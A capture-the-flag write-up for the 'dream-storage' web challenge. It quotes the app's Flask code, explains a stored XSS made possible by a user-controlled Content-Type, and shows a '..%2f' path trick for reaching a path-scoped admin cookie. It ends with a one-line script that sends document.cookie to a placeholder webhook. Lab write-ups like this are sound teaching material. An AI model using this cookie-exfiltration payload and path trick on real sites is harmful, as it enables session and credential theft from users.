


## dream-storage  



We are given a website where we can create and report files.  

An admin bot is used to visit reported files, giving us a typical XSS setup.  

```python
def check_url(url):
    try:
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome('./chromedriver', options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        
        driver_promise = Promise(driver.get('http://localhost:80/signin'))
        driver_promise.then(driver.find_element_by_name("uid").send_keys(str(ADMIN_USERNAME)))
        driver_promise.then(driver.find_element_by_name("upw").send_keys(str(ADMIN_PASSWORD)))

        driver_promise = Promise(driver.find_element_by_id("submit").click())
        driver_promise.then(driver.get(url))
    except Exception as e:
        driver.quit()
        return False
    finally:
        driver.quit()
    return True

@app.route('/report', methods=['GET', 'POST'])
def report():
    if request.method == 'POST':
        path = request.form.get('path')
        if not path:
            flash('fail.')
            return redirect(url_for('report'))

        if path and path[0] == '/':
            path = path[1:]

        url = f'http://localhost:80/{path}'
        if check_url(url):
            flash('success.')
        else:
            flash('fail.')
        return redirect(url_for('report'))

    elif request.method == 'GET':
        return render_template('report.html')
```

The `/user/upload` endpoint allows us to supply a filename and file contents with no restrictions.  

The `/file` endpoint allows us to view files. Even though `Content-Type` defaults to `text/plain`, we are able to control it using the `content-type` URL parameter, allowing us to get HTML rendering and XSS.  

The CSP that is being enforced also allows inline scripts, so there is effectively no restrictions on XSS.  

```python
@app.after_request
def after_request(response):
    response.headers["Content-Security-Policy"] = "default-src 'self' 'unsafe-inline' https://cdn.jsdelivr.net"
    response.headers["X-Frame-Options"] = "deny"
    return response

...

@app.route('/file/<string:user_uuid>/<string:filename>')
def storage(user_uuid, filename):
    if user_uuid and filename:
        files = Storages.query.filter_by(user_uuid=user_uuid, filename=filename).first()
        if files:
            content_type = request.args.get('content-type', 'text/plain')
            response = make_response(files.data)
            response.headers['Content-Type'] = content_type
            return response
        
    return 'Not Found', 404

...

@app.route('/user/upload', methods=['GET', 'POST'])
@jwt_required()
def upload():
    if request.method == 'POST':
        try:
            filename = request.form.get('filename')
            data = request.form.get('data')
            if filename and data:
                newfile = Storages(
                    user_uuid=current_user.user_uuid,
                    filename=filename,
                    data=data
                )
                db.session.add(newfile)
                db.session.commit()
        except DataError:
            flash('File Create fail.')
            return redirect(url_for('upload'))
        return redirect(url_for('user'))

    elif request.method == 'GET':
        return render_template('user/upload.html')
```

```python
@app.route('/signin', methods=['GET', 'POST'])
def signin():
    if request.method == 'POST':
        uid = request.form.get('uid')
        upw = request.form.get('upw')

        if uid and upw:
            user = Users.query.filter_by(uid=uid).first()
            if user and check_password_hash(user.upw, upw):
                access_token = create_access_token(identity=user.id, expires_delta=None)
                response = make_response(redirect(url_for('user')))
                response.set_cookie(app.config["JWT_ACCESS_COOKIE_NAME"], access_token, path='/user')
                if user.is_admin:
                    response.set_cookie('FLAG', FLAG, path='/user')
                return response
        
        flash('signin fail.')
        return redirect(url_for('signin'))

    elif request.method == 'GET':
        return render_template('signin.html')
```

The main obstacle of this challenge is that the flag cookie path is set to `/user` on admin login, which means, we can't directly fetch it when our payload executes on `/file`.  

```python
@app.route('/signin', methods=['GET', 'POST'])
def signin():
    if request.method == 'POST':
        uid = request.form.get('uid')
        upw = request.form.get('upw')

        if uid and upw:
            user = Users.query.filter_by(uid=uid).first()
            if user and check_password_hash(user.upw, upw):
                access_token = create_access_token(identity=user.id, expires_delta=None)
                response = make_response(redirect(url_for('user')))
                response.set_cookie(app.config["JWT_ACCESS_COOKIE_NAME"], access_token, path='/user')
                if user.is_admin:
                    response.set_cookie('FLAG', FLAG, path='/user')
                return response
        
        flash('signin fail.')
        return redirect(url_for('signin'))

    elif request.method == 'GET':
        return render_template('signin.html')
```

To bypass this, we can use a URL-encoding trick to get path traversal.  

If we report `/user/..%2ffile`, Flask normalises it and routes to `/file`, executing our XSS payload, but the browser doesn't normalise and retains the full URL, so the path gets detected as `/user`.  

This allows us to leak the flag cookie into our payload page.  

```
/user/..%2ffile/<payload file link>
```

Now, we just need to create a file that exfiltrates the cookie to our webhook and report it to retrieve the flag.  

```html
<script>location.href = `<webhook>?e=${document.cookie}`</script>
```



Flag: `DH{37fd5ca4cbd7ddc3e13db1010e9bd5629a9f3c06}`